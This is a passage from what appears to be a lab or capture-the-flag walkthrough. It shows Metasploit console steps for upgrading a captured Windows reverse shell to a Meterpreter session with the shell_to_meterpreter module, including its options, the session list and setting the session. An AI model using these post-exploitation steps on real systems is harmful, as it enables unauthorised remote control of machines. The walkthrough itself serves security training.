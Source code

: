 ### #3.2

Select this (use MODULE_PATH). Show options, what option are we required to change? (All caps for answer)

~~~
msf5 post(multi/manage/shell_to_meterpreter) > show options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on.
~~~

Required option: `SESSION`

### #3.3

Set the required option, you may need to list all of the sessions to find your target here. 

Hint: `sessions -l`

~~~
msf5 post(multi/manage/shell_to_meterpreter) > sessions -l

Active sessions
===============

  Id  Name  Type               Information                                                                       Connection
  --  ----  ----               -----------                                                                       ----------
  1         shell x64/windows  Microsoft Windows [Version 6.1.7601] Copyright (c) 2009 Microsoft Corporation...  10.9.35.106:4444 -> 10.10.126.60:49168 (10.10.126.60)

msf5 post(multi/manage/shell_to_meterpreter) > set SESSION 1
SESSION => 1
msf5 post(multi/manage/shell_to_meterpreter) > show options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION  1                yes       The session to run this module on.
~~~
